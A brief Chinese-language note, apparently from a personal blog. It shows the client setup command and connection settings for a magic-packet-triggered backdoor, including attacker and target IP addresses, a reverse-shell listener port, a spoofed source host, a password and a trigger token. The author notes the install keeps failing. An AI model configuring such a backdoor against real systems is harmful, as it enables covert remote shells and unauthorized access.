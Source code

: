 首先，需要在攻击机上安装客户端：

```bash
./setup.sh client
```

设置连接配置：

```text
LHOST47.94.236.117Local host to receive the shell
LPORT4444Local port to receive the shell
SRCHOST47.94.236.117Source host on magic packets (spoof)
SRCPORT666Source port on magic packets (only for TCP/UDP)
RHOST121.43.154.113Remote host
RPORT22Remote port (only for TCP/UDP)
PROTTCPProtocol to send magic packet (ICMP/TCP/UDP)
PASSs3cr3tBackdoor password (optional)
TOKENhax0rToken to trigger the shell

```

我不知道为啥 一直安装不成功，之后再试试看吧！
